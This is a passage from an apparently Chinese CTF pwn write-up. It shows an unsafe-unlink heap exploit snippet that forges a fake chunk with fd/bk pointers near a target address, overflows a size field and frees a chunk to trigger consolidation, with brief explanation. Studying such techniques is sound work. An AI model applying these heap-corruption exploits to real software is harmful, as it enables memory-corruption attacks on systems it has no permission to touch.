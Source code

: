 利用脚本：

```bash
target = 0x404060

add(0,0x428,b'aaaa')
add(1,0x4f0,b'aaaa')
add(2,0x410,b'aaaa')

payload = p64(0) + p64(0x421) + p64(target - 0x18) + p64(target - 0x10)
payload = payload.ljust(0x420,b'\x00')
payload += p64(0x420)

edit(0,payload)
delete(1)

edit(0,b'\x00'*0x18 + p64(target - 0x18) + p64(0x4040c0)+p64(0)*10 + p32(0x1000)*10)
```

首先伪造好 chunk，把 fd，bk 指针修改成我们想要控制的地方

[![](assets/1702521085-be374a2d48edf2271c5a470be4294771.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231205231029-6d8afd6a-9380-1.png)

此时 delete(1) 就会使 chunk (1) 与 fake\_chunk 进行合并

[![](assets/1702521085-d4613798e1a76592cf63d05122feae02.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231205231041-74456c58-9380-1.png)
